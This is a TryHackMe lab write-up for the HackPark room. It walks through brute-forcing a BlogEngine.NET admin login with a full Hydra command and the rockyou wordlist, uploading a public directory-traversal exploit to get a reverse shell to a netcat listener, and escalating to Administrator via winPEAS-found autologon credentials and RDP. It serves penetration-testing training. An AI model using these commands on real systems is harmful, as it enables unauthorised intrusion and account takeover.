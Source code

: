 ```yaml
---
layout: single
title:  "HackPark Writeup - TryHackMe"
date:   2020-07-31 20:00:00 -0400
classes: wide
categories: THM
tags:
 - Bruteforcing
 - Privesc
 - OSCP
 - Hydra
 - winPEAS
---
```


This time we will be resolving the [HackPark](https://tryhackme.com/room/hackpark) room from [TryHackMe](https://tryhackme.com/). This box is part of the Offensive pentesting learning path so it will be very useful for our OSCP journey.

## Room info

![Machine Info](/images/THM/HackPark/01-machine-info.png "Machine Info"){: .align-center}

## Enumeration

For some reason, nmap is not giving any information about the open ports for this machine, but I'll anticipate that we have ports **80** and **3389** open.

First of all, taking a look of the website ```http://10.10.203.246``` we see the following landing page:

![Landing Page](/images/THM/HackPark/00-landing-page.png "Landing Page"){: .align-center}

Doing a reverse image search on the clown picture, we can tell that is **Pennywise** from IT movie.

Moving on, the next interesting section of the website is the **Log In** panel on the right menu.

![Right Menu](/images/THM/HackPark/02-login.png "Right Menu"){: .align-center}

So, we click on **Log In** and get to a login page. In the landing page we see **Blogengine.net** and a form asking for user and password. 

URL: ```http://10.10.203.246/Account/login.aspx```

![Login](/images/THM/HackPark/03-blog-login.png "Login"){: .align-center}

As we know, the room description says we will be using hydra for bruteforcing. So, before that is important to know what is the default user for **Blogengine**. 

After a quick Google research we got **admin** as the default user and from now on just need to obtain the password through bruteforcing with Hydra.

## Exploiting

For the tool to work, we need to specify the following information:

> hydra -l [User] -P [Pass] [Target IP] [Request Method] "[Login form Path]:[Request body]:[Failure message]"

- The user field is ```admin```.
- For the **Pass** field we will be using ```rockyou.txt``` wordlist.
- The target IP is ```10.10.203.246```.
- The login form path will be ```/Account/login.aspx```.

For the rest, we will have to do a little research on the login page. Using the Developer tools from our browser we can see how the login form sends the request.

The network tab will show us the request method whenever we make a submit on the login form. So, let's go ahead and make a request with the following parameters:

- Username: ```usertest```.
- Password: ```passtest```.

![Method](/images/THM/HackPark/03-form-method.png "Method"){: .align-center}

Now we know the form is using **POST** method to make the request, and using the **Edit and Resend** button in the bottom right corner we can see the raw body request. Finally, we also get the message whenever a wrong user/pass is entered: ```Login failed```. 

![Request](/images/THM/HackPark/03-request.png "Request"){: .align-center}

**Request Body**
```bash
__VIEWSTATE=49GAAjlZ%2B4B1%2Bz38DrOFSr7m8aWbh0CXLp8Xr2aPBM2liP4BPRanZv%2Bsnfh62wyJQLsPPiHvYs6oZ5ngezwSDWtN9kSbkJYkqhj%2Fdcvfk0iQv7ShrL9zDiVLHkHAzvF7bEV0%2FgUB5BfJVrw0MFhYcvzn9a0rlmhy8J%2BMjjD53W4mULD4&__EVENTVALIDATION=sXh8q7nd3FnQbnON%2BvVUJwD7BbO7R8oPcmNeBZMWODV4Exie1bp00VsrrcY70IHcnw%2B3oo%2Bgu%2FXsUt2HuFYShgSXZf1qf%2FOosRaywgIUr7HIriKizOiGdSotndccZxhlmHYKGSu9iGAuAQsT5%2BZoAu3zLyGex42pPknzmCQw5%2FRCe%2BUN&ctl00%24MainContent%24LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

For hydra to work, we need to specify a couple of placeholders for the USER and PASS parameters in the request. If we take a closer look to the raw request, we can see the user and pass entered earlier: 

```
LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest
```

So in this case, we replace **usertest** for ```^USER^``` and **passtest** for ```^PASS^```.

```
LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^
```

**Full command**

After getting all the information, the full command looks like this:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.203.246 http-post-form "/Account/login.aspx:__VIEWSTATE=DuOBP%2BgZJeq6AMydj5niN1uZM%2FDPpZMaxfWo5oEC4brEJy1oBLy29HUrOfHMJVOGXkG1660e6jVooc9Yq08XSwXuS6%2BEAz0wmCd9zrPJ%2FvRTEfvW4%2FydsHFgcUy%2BaIkSagapG4M4u0EK%2FxLTi5gChTWoajmuqFTxAa8qQQJOi7n9k0Fmpfq1MZzahKDFn5OJvCfq6JW%2FQVV4w%2FwQsnL03wpViAbcqU5CAVBTo9igmfmnTanl64dDgoz8ZkXx0sfLD8O136c%2BVm6kcfY3olmQUP34NqflsNH9hVBYr4piqoMqK%2BQjG2SI4cgyyRbcUjLnOryib9veu%2BsGI147wYnLVmnQT1HR0uePIIBJ%2BA3UQJZngtnK&__EVENTVALIDATION=yxXvvmOhIbyz01WxElUbLdtpbMGxCzl5Rt2yC8ppVo8aEkoGj61ik751%2FMdx5Ea6wPF4FA5bjdCtJ%2BJ2terqrBoDEHH8mETsjtorsuBx5xG0AxeHmiNLCZGHt0BDXhVuDeihrfZuN6Wb89YIQvzsLZT4aFAD2DEeuiF3stBpJy%2Bco6jP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 60 -V
```
So we launch hydra and in a couple of minutes we get the password for the admin user.

![Hydra bruteforcing](/images/THM/HackPark/02-hydra-BF-blur.png "Hydra bruteforcing"){: .align-center}

Logging in, the first thing to do is find the CMS version, for this we navigate to the About tab on the sidebar menu.

![Blog version](/images/THM/HackPark/03-blog-version.png "Blog version"){: .align-center}

With this information, now we proceed to take a look on exploitdb if there is already an exploit or CVE for this CMS. 

![Searchsploit](/images/THM/HackPark/04-searchsploit.png "Searchsploit"){: .align-center}


There is indeed an exploit available for our CMS version. Lets take a look to the one named ***"BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution"*** and read it carefully.

It is a exploit written in C# which will allow us to get a reverse shell exploiting a vulnerable code in the ```PostList.ascx.cs``` file. To abuse this vulnerability, we have to do the following:

- Edit the exploit with our local IP address and Port for the reverse shell.

![Exploit](/images/THM/HackPark/04-modify-exploit.png "Exploit"){: .align-center}

- Set a listener with the same parameters.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
```

- Rename the exploit as: ```PostView.ascx```.
- In the CMS, navigate to ***Content > Posts > New*** and add a new post uploading our ```PostView.ascx``` file. Click on the open folder icon.

![Exploit Upload 1](/images/THM/HackPark/06-upload-01.png "Exploit Upload 1"){: .align-center}

- Upload the exploit using the file manager and add it to the new post.

![Exploit Upload 2](/images/THM/HackPark/06-upload-02.png "Exploit Upload 2"){: .align-center}

- Set a title and save it.

![Exploit Upload 3](/images/THM/HackPark/06-upload-03.png "Exploit Upload 3"){: .align-center}

- Open the URL: ```http://10.10.203.246/?theme=../../App_Data/files```.

Finally we get the reverse shell.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.203.246] 49428
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

## Privilege Escalation

For privesc we are going to use [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) which is awesome for a system quick scan. We need to make sure to download the correct version of the binary as we are in a x64 machine.

```batch
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-10000-00000-AA228
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          7/31/2020, 9:45:02 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
```
With the tool already in the machine, we proceed to run it by simply doing ```winPEAS.exe``` from the console. Then we will take a moment to analyze the output. 

Scrolling through, we reach the following section that looks interesting:

![Autologon Credentials](/images/THM/HackPark/06-credentials-blur.png "Autologon Credentials"){: .align-center}

**winPEAS** just found us some autologon credentials from the **Administrator** user, so the next step will be checking this using RDP.

```bash
xfreerdp /u:Administrator /p:4q6Xv******** /v:10.10.203.246
```

![Administrator access](/images/THM/HackPark/07-admin-access.png "Administrator access"){: .align-center}

That's it! Now we have Administrator privileges and access to the root flag in the desktop.